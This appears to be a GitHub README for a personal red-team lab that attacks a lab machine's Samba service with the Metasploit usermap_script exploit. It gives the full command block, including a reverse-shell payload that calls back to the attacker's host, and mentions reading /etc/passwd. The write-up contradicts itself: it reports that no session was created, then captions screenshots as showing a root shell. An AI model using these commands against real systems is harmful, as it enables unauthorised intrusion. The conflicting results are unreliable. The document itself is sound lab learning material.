
---

##  Lab04 – Enumerating & Attacking SMB with Samba Usermap Script

```markdown
# Lab04 – Enumerating & Attacking SMB with Samba Usermap Script
```
---

##  Objective
Explore vulnerabilities in the Samba service and attempt exploitation via the usermap_script module.

---

##  Tools
- Metasploit Framework
- Enum4linux (Optional)

---

##  Exploit Used
```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set RPORT 139
set LHOST 192.168.56.1
set payload cmd/unix/reverse
run
```
---

## Result
Exploit attempt completed, but no session was created

Demonstrated post-exploitation validation (whoami, id, hostname)

---

## What I Learned
Gained insight into SMB vulnerabilities and misconfigurations

Understood the role of payload compatibility and listener binding

Learned how to troubleshoot and document failed attempts

---

## Screenshot

Initial service enumeration revealed Samba ports (445, 139) open and listening:

![Samba Ports Detected](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab4/Screen%20Shot%202025-05-23%20at%2020.21.15.png))

Upon successful exploitation using `usermap_script`, root-level shell was obtained as shown:

![Root Shell via SMB Exploit](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab4/Screen%20Shot%202025-05-23%20at%2020.21.39.png
))

User enumeration after gaining access, showing contents of `/etc/passwd`:

![User Enumeration](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab4/Screen%20Shot%202025-05-23%20at%2021.52.34.png))


---

## Date
28 May 2025
